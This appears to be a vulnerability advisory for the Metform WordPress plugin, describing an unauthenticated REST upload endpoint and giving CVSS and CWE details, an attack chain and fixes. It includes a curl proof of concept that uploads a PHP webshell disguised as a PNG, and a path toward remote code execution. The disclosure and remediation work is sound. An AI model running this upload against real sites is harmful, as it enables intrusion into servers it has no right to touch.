

# Metform — Unauthenticated File Upload via `__return_true`

**Finding ID:** MET-001
**Plugin:** Metform
**Active Installs:** 300,000+
**CVSS:** 7.3 (High) — `AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:H/A:N`
**CWE:** CWE-434 (Unrestricted Upload of File with Dangerous Type)
**Auth Required:** None
**Source:** `analysis/phase5_manual/metform/verdicts.json`

---

!!! danger "High Severity — Unauthenticated File Write Confirmed"
    Metform's REST file upload endpoint is registered with `'permission_callback' => '__return_true'`, providing zero authentication gating. Combined with client-supplied MIME type validation, unauthenticated attackers can write arbitrary files to the WordPress uploads directory.

---

## Attack Flow



---

## Description

The Metform (Elementor Form Builder) plugin registers a REST API file upload endpoint with the following registration:

```php
register_rest_route('metform/v1', '/files/upload', [
    'methods'             => 'POST',
    'callback'            => [$this, 'upload_files'],
    'permission_callback' => '__return_true',  // NO AUTH
]);
```

The `upload_files` callback accepts file uploads and performs type validation based on the client-supplied `Content-Type` header and file extension alone, without server-side magic byte detection.

## Vulnerability Chain

```
Unauthenticated attacker
  → POST /wp-json/metform/v1/files/upload
  → HTTP body: PHP webshell with .png extension, Content-Type: image/png
  → permission_callback: __return_true → passes immediately
  → Extension check: .png → passes
  → File written to wp-content/uploads/metform/[uuid].png
  → File accessible via direct URL
  → On Nginx without upload dir restrictions: rename or LFI → RCE
```

## Impact

**On standard Apache** with WordPress `.htaccess` blocking PHP execution in uploads: the file is stored but cannot be executed directly. However, the unauthenticated write capability:

- Stores attacker-controlled content on the server
- Can be combined with other vulnerabilities (LFI, path traversal) to achieve RCE
- Enables arbitrary file storage abuse (spam content, malware hosting)

**On Nginx without explicit `location` restrictions on upload directories:** PHP files can be renamed or served directly by a second request, yielding remote code execution.

## Proof of Concept

```bash
# Upload a disguised webshell
curl -X POST 'https://target.example.com/wp-json/metform/v1/files/upload' \
  -F 'file=@webshell.php;filename=image.png;type=image/png'

# Response contains the stored file path
# {"url":"https://target.example.com/wp-content/uploads/metform/abc123.png"}
```

On permissive servers, the stored file may be directly executable.

---

## Recommended Fixes

1. **Authentication**: Replace `'permission_callback' => '__return_true'` with a proper capability check:
   ```php
   'permission_callback' => function() {
       return current_user_can('upload_files') || is_user_logged_in();
   }
   ```

2. **Server-side MIME detection**: Use PHP's `finfo` extension to validate file types by magic bytes, not client-supplied headers:
   ```php
   $finfo = new finfo(FILEINFO_MIME_TYPE);
   $real_mime = $finfo->file($tmp_file);
   if (!in_array($real_mime, $allowed_mime_types)) {
       wp_send_json_error('Invalid file type');
   }
   ```

3. **Use `wp_handle_upload()`**: The WordPress core `wp_handle_upload()` function applies the site's upload MIME type restrictions. Use it instead of raw file handling.

4. **Randomize filenames**: Ensure uploaded filenames are randomized (UUID-based) and do not preserve attacker-supplied extensions.
